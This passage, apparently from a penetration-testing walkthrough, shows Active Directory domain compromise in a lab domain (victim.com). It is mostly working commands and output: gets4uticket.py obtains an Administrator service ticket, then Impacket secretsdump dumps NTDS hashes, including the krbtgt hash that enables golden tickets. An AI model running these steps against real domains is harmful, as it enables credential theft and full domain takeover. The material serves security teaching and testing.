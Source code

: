 - The NT hash you just extracted (6584bf06e7b65c680426dd1b21352f01)
- The hostname of the domain controller you’re targeting (ADVICTIM2012R2)
- Crackmapexec installed

Let's take the good old Administrator account to get the silver ticket and get full domain access with the gets4uticket.py command.

```shell
(pyvirtenv) ┌──(root💀cerberus)-[~/pyvirtenv]
└─# KRB5CCNAME=out.ccache python3 PKINITtools/gets4uticket.py kerberos+ccache://victim.com\\ADVICTIM2012R2\$:out.ccache@ADVICTIM2012R2.victim.com cifs/ADVICTIM2012R2.victim.com@victim.com Administrator@victim.com Administrator.ccache -v
2022-05-16 08:32:40,215 minikerberos INFO     Trying to get SPN with Administrator@victim.com for cifs/ADVICTIM2012R2.victim.com@victim.com
INFO:minikerberos:Trying to get SPN with Administrator@victim.com for cifs/ADVICTIM2012R2.victim.com@victim.com
2022-05-16 08:32:40,548 minikerberos INFO     Success!
INFO:minikerberos:Success!
2022-05-16 08:32:40,549 minikerberos INFO     Done!
INFO:minikerberos:Done!
```
Note that you need the following for the command to work:
- The hostname of the domain controller you’re targeting (ADVICTIM2012R2)
- The generated ccache file you got from gettgtpkinit.py (out.ccache)
- A user to target and pull a silver ticket for (Administrator)
- The internal domain name (victim.com)
 
We have obtained the silver kerberos ticket as Administrator and saved it in the Administrator kerberos ticket cache (Administrator.ccache).
Now we can execute a secretdump to reveal all the credentials and hashes from the domain controller including the `famous` or maybe better the `infamous` golden ticket (krbtgt).
```shell
(pyvirtenv) ┌──(root💀cerberus)-[~/pyvirtenv]
└─# KRB5CCNAME=Administrator.ccache python3 impacket/examples/secretsdump.py -just-dc-ntlm -user-status -debug -k victim.com/Administrator@ADVICTIM2012R2.victim.com -no-pass -outputfile victim.com
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /root/pyvirtenv/lib/python3.10/site-packages/impacket
[+] Using Kerberos Cache: Administrator.ccache
[+] Returning cached credential for CIFS/ADVICTIM2012R2.VICTIM.COM@VICTIM.COM
[+] Using TGS from cache
[+] Saving output to victim.com
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[+] Session resume file will be sessionresume_QOZpvagZ
[+] Calling DRSCrackNames for S-1-5-21-1063042220-3397736702-1914350276-500
[+] Calling DRSGetNCChanges for {b0c05beb-b058-4be4-af26-b298ed790bf6}
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Administrator,CN=Users,DC=victim,DC=com
Administrator:500:aad3b435b51404eeaad3b435b51404ee:41b3f9ac5278dae30d67b59e3b01383f::: (status=Enabled)
[+] Leaving NTDSHashes.__decryptHash
[+] Calling DRSCrackNames for S-1-5-21-1063042220-3397736702-1914350276-501
[+] Calling DRSGetNCChanges for {9be2d9b6-f416-401b-8785-8acf939cc05c}
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=Guest,CN=Users,DC=victim,DC=com
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
[+] Leaving NTDSHashes.__decryptHash
[+] Calling DRSCrackNames for S-1-5-21-1063042220-3397736702-1914350276-502
[+] Calling DRSGetNCChanges for {6239cb31-4fd8-474a-b517-3e52c6907330}
[+] Entering NTDSHashes.__decryptHash
[+] Decrypting hash for user: CN=krbtgt,CN=Users,DC=victim,DC=com
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4e10b53bcd24af9db5f2f9cb302d3a94::: (status=Disabled)
[+] Leaving NTDSHashes.__decryptHash
[+] Calling DRSCrackNames for S-1-5-21-1063042220-3397736702-1914350276-1000
```